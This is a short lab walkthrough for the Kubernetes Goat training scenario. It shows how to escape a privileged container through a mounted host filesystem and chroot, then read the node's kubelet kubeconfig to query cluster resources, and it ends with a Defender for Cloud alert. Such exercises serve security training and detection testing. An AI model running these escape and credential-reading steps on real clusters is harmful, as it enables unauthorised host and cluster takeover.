 # Setup of Kubernetes Goat 

from https://madhuakula.com/kubernetes-goat/

The goal of this scenario is to escape out of the running docker container on the host system using the available misconfigurations. The secondary goal is to use the host system-level access to gain other resources access and if possible even go beyond this container, node, and cluster-level access

After performing the analysis, you can identify that this container has full privileges of the host system and allows privilege escalation. As well as /host-system is mounted

```
capsh --print
```

```
mount
```

Now you can explore the mounted file system by navigating to the /host-system path

```
ls /host-system/
```

You can gain access to the host system privileges using chroot

```
chroot /host-system bash
```

The Kubernetes node configuration can be found at the default path, which is used by the node level kubelet to talk to the Kubernetes API Server. If you can use this configuration, you gain the same privileges as the Kubernetes node.

```
cat /var/lib/kubelet/kubeconfig
```

Using the kubelet configuration to list the Kubernetes cluster-wide resources

```
kubectl --kubeconfig /var/lib/kubelet/kubeconfig get all -n kube-system
```

You are able to obtain the available nodes in the Kubernetes cluster by running the following command:

```
kubectl --kubeconfig /var/lib/kubelet/kubeconfig get nodes
```

Finally, you will see an alert showing up on the Defender for Cloud console similar to this

![container-escape-alert](/images/container-escape.PNG)

